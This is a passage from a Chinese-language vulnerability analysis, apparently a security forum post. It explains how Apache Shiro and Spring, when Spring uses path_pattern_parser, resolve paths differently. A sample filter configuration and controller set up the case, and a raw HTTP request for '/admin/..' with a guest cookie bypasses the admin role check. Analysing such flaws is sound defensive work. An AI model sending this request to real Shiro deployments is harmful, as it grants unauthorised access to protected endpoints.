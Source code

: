 漏洞利用
----

所以，就如漏洞描述中写的，当spring中使用path\_pattern\_parser配置的时候，就会造成在shiro和spring中路由分发时候获取uri时的结果差异。  
也就可能造成shiro中鉴权绕过。  
例如shiro中配置路由规则如下：

```java
DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
chainDefinition.addPathDefinition("/logout", "logout");
chainDefinition.addPathDefinition("/admin/**", "roles[admin]");
chainDefinition.addPathDefinition("/guest/**", "roles[guest]");
```

在controller中如下设置：

```java
@Controller
public class AccountInfoController {
    @RequestMapping("/admin/**")
    public String home(Model model) {
        String name = "World";
        Subject subject = SecurityUtils.getSubject();
        PrincipalCollection principalCollection = subject.getPrincipals();
        if (principalCollection != null &amp;&amp; !principalCollection.isEmpty()) {
            name = principalCollection.getPrimaryPrincipal().toString();
        }
        model.addAttribute("name", name);
        return "account-info";
    }
```

正常来说，应该之后admin角色才能访问AccountInfoController的home。  
![admin-200](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-8fbac2e214376cccb53cec4d4f282c7665d2263a.png)

![guest-401](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-9b5a5002183d0986041501783c7730f7cb7b64ad.png)  
但如果利用shiro会解析`..`而spirng不会的差异，可以发送如下请求，使guest的cookie可以访问这个接口。

```http
GET /admin/.. HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=f75894a9-955f-4778-b78e-bf6ae7c6f423
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```
